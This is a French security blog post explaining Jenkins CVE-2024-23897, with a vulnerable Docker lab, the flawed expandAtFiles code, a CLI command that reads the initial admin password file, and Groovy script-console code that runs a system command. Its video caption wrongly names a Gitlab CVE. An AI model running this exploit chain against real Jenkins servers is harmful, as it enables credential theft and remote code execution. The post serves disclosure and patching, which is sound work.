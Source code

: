 ```yaml
---
title: "Compromettre Jenkins via une simple lecture de fichiers : CVE-2024-23897"
description: "Cette article détaille comment avec une simple vulnérabilité décelée fin janvier 2024, un attaquant serait en mesure de compromettre des instances Jenkins."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Test d'intrusion", "Pentest", "Audit"]
---
```


# 💣 D'une petite erreur verbeuse à une compromission complète

## A l'origine

Le **25 janvier 2024**, des chercheurs de chez Sonar publient 2 vulnérabilités concernant le leader des logiciels d'intégration et de déploiement continus open-source (CI/CD) : **Jenkins**.

Jenkins joue un rôle central dans **l'automatisation des processus** de développement logiciel pour une grande partie de l'industrie, avec une part de marché d'environ **44% en 2023**. L'impact potentiel de ces vulnérabilités est donc **considérable**.

La faille la plus préoccupante, identifiée sous le nom de **CVE-2024-23897**, permet à des attaquants non authentifiés de lire des données limitées de fichiers arbitraires et à des attaquants autorisés "en lecture seule" d'accéder à l'intégralité d'un fichier sur le serveur Jenkins.

Deux vulnérabilités sont expliquées :

- La vulnérabilité **CVE-2024-23897** :
    - Un score CVSS de **9.8/10** (assez préoccupant) 😮
    - Un attaquant anonyme est en mesure de lire une partie limitée de fichiers locaux.
- La vulnérabilité **CVE-2024-23898** :
    - Un score CVSS de 8.8/10
    - Permet à un attaquant d'exécuter des commandes CLI arbitraires en incitant une victime à cliquer sur un lien malveillant (CSRF).

## En bref

La vulnérabilité la plus problématique est la première : **CVE-2024-23897**

- Les attaquants non authentifiés peuvent lire **les premières lignes de fichiers locaux** présents sur le serveur.
- Les attaquants authentifiés en lecture seule peuvent accéder à l'intégralité des fichiers.
- Il est possible de transformer cette vulnérabilité en RCE de plusieurs manières :
    - En lisant contenant le mot de passe par défaut
    - En elevant ses privilèges en tant qu'admin
    - En lisant une clef SSH
    - En récupérant des secrets sur la machine
    - Etc...

Jenkins donne d'autres moyens pour obtenir une execution de commande directement sur son blog : https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Pour exploiter la première vulnérabilité, le PoC est assez facile. 

### Docker vulnérable

Il est possible de tester avec des versions vulnérables via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environnement

Il faut commencer par récupérer l'utilitaire de Jenkins `jenkins-cli.jar` en ligne de commande.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```

![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Code vulnérable

Le code ci-dessous détaille le code vulnérable.

La fonction vérifie si l'argument commence par le caractère `@`, et si c'est le cas, lit le fichier dans le chemin après le `@` et créée un nouvel argument pour chaque ligne.


```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

Cela signifie que si un attaquant peut contrôler un argument, il peut l'étendre à un certain nombre d'arguments à partir d'un fichier arbitraire sur l'instance Jenkins.

De ce fait, l'exploitation de la fonction `expandAtFiles()` de `arg4j` affichant une erreur verbeuse lors de la tentative de lecture du fichier est possible.

### Lecture arbitraire...

La commande ci-dessous permet à un utilisateur **non authentifié** de récupérer la première ligne du fichier `/var/jenkins_home/secrets/initialAdminPassword`

```sh
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![Lecture de fichiers arbitraires](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)

### ...vers RCE

Il est donc possible de récupérer le mot de passe par défaut de l'administrateur si ce dernier n'a pas été changé.

![Capture du mot de passe administrateur](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)


Il est ensuite possible de se connecter sur `/script` pour exécuter nos commandes. 

![Execution de commande](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)

Le code ci-dessous permet d'exécuter la commande `/bin/id`.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Pour terminer, une démonstration est disponible juste en dessous !

## Actions recommandées

Mise à jour immédiate ! Le plus simple est de mettre à jour son instance Jenkins. Une correction est disponible.

## Démonstration

Démonstration avec les éléments détaillés ci-dessus.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/